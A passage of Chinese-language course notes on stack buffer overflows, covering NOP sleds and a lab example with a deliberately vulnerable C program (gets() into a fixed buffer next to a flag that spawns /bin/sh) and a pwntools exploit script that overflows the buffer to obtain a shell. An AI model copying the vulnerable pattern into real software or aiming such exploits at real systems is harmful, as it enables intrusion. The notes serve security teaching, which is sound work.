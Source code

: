 为了简化计算，我们可以在新的return address和malicious code间插入NOP，NOP是不会被执行的并会跳到下一条指令，这样我们就不需要精确地计算malicious code的起始位置，而只需要保证我们新的return address是在malicious code前就可以了。

![1720265607952](SoftwareSecurity1/1720265607952.png =500x)

## 攻击示例 

### Victim1

Overwrite变量值来拿到shell。

通过攻击改变程序的控制流。
 
#### 源代码

```c
//victim1.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define LENGTH 256

void hear(){
    char flag = 'N';
    char str[LENGTH]; 
    gets(str);
    if (flag == 'Y') {
        printf("[HACKED]\n");
        execve("/bin/sh", NULL, NULL);
    }   
}

int main(int argc, char* argv[]){
    printf("Hi. Tell me something, less than %d charecters ...\n", LENGTH);
    hear();
    printf("end\n");
    return 0;
}
```
 
#### 过程

栈的布局如下所示：

![1720265784412](SoftwareSecurity1/1720265784412.png =500x)

所以只要溢出一个字符'Y'来覆盖'N'即可。

#### 攻击脚本

```python
from pwn import *

#process的作用是运行本地的程序，如果要攻击远端服务器，可以用remote(ip, port)
io = process('./victim1')

payload = 'A'*256+'Y'
io.sendline(payload) #向程序发送内容作为输入流

io.interactive() #进入交互模式
```
